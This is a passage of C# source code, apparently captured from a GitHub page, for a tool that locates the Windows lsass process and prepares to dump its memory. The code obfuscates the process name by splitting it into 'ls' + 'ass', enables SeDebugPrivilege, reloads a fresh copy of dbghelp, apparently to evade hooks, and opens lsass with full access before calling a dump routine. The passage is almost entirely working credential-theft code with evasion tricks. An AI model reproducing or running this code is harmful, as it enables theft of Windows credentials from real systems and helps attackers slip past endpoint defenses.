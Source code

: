 ```cs 
        public uint Characteristics;
    }

    const uint TOKEN_QUERY = 0x0008;
    const uint TOKEN_ADJUST_PRIVILEGES = 0x0020;
    const uint SE_PRIVILEGE_ENABLED = 0x00000002;
    const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
	const uint GENERIC_READ = 0x80000000;
    const uint FILE_SHARE_READ = 0x00000001;
    const uint OPEN_EXISTING = 3;
    const uint PAGE_READONLY = 0x02;
    const uint SEC_IMAGE = 0x1000000;
    const uint FILE_MAP_READ = 0x0004;

    static void Main()
    {
        int pid = 0;

        foreach (Process proc in Process.GetProcesses())
        {
            string prefix = "ls";
            string suffix = "ass";
            string serviceName = prefix + suffix;

            if (proc.ProcessName == serviceName)
            {
                pid = proc.Id;
                Console.WriteLine("[+] The Process PID: " + pid);
                break;
            }
        }

        if (!IsElevated())
        {
            Console.WriteLine("Not admin");
            return;
        }
        if (!SetDebugPrivilege())
        {
            Console.WriteLine("No SeDebugPrivilege");
            return;
        }

        FreshCopyDbghelp();

        IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        if (hProcess == IntPtr.Zero)
        {
            Console.WriteLine("Failed in OpenProcess");
            return;
        }

        pd(hProcess, (uint)pid);
        CloseHandle(hProcess);
    }

    static bool IsElevated()
    {
        IntPtr hToken;
        if (!OpenProcessToken(Process.GetCurrentProcess().Handle, TOKEN_QUERY, out hToken))
        {
            return false;
        }
```